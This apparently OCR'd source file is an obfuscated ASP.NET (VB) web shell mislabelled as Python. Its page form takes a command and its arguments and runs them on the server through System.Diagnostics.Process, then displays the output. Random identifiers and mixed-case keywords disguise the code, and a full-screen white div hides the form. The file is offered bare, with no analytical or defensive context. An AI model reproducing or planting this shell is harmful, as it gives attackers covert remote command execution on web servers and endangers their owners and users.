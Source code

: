 ```python
<%@ Page LanGuaGe='VB' Debug='tRUe' %>
 <%@ imPOrt NamESpAce='system.IO' %>
 <%@ imPOrt NamESpAce='System.Diagnostics' %>
 <scRIPt runat='server'>
 Sub xYjIZpmdmjiWw()
   Dim JxnrmdFyeYmhR AS NeW PrOCesS()
   Dim wJcYHmytXmDbS As New ProCeSsStaRtInFo(mqLdtgkkaMLaJ.teXt)
   wJcYHmytXmDbS.UsESheLlExeCuTe=fALse
   wJcYHmytXmDbS.RedIRectStaNDardOuTPut=tRUe
   JxnrmdFyeYmhR.StARtInFo = wJcYHmytXmDbS
   wJcYHmytXmDbS.ArGumENts=pgHmZQGldXBQB.teXt
   JxnrmdFyeYmhR.StARt()
   Dim ErWvWiWvUJgAx As StreamReader=JxnrmdFyeYmhR.StanDardOutput
   Dim YXZahWhTuzTFZ As StRIng = ErWvWiWvUJgAx.ReAdtOEnd()
   JxnrmdFyeYmhR.Close()
   otqFkGShCVEuP.text= YXZahWhTuzTFZ
 End Sub
 </scRIPt>
 <html>
 <body>
 <style>#div1{background:white}</style><style>#div1{width:100%}</style><style>#div1{height:100%}</style><style>#div1{position:fixed}</style>
 <div id='div1'></div>
 <form runat='server'>
 <asp:TeXtBOx id='mqLdtgkkaMLaJ' runat='server' Width='300px'></asp:TeXtBOx>
 <asp:TeXtBOx id='pgHmZQGldXBQB' runat='server' Width='300px'></asp:TeXtBOx>
 <p><asp:Button id='Button' onclick='xYjIZpmdmjiWw' runat='server' Width='100px'></asp:Button>
 <p><asp:Label id='otqFkGShCVEuP' runat='server'></asp:Label>
 </form>
 </body>
 </html>
```